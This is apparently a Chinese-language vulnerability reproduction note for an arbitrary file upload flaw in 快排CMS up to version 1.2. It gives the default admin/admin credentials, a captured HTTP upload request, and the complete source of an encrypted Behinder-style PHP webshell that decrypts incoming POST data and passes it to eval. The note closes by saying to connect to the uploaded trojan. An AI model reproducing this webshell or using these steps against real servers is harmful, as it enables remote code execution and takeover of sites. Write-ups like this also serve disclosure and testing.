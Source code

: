 # 快排CMS 任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> 快排 CMS <= 1.2

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```

![](resource/快排CMS-任意文件上传漏洞/media/1.png)

源码中没有对上传文件的后缀检测

```
thinkphp/library/think/File.php
```

![](resource/快排CMS-任意文件上传漏洞/media/2.png)

任意找一处文件上传点

![](resource/快排CMS-任意文件上传漏洞/media/3.png)

上传抓包获取文件地址

![](resource/快排CMS-任意文件上传漏洞/media/4.png)

```
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--

```

连接冰蝎木马即可

![](resource/快排CMS-任意文件上传漏洞/media/5.png)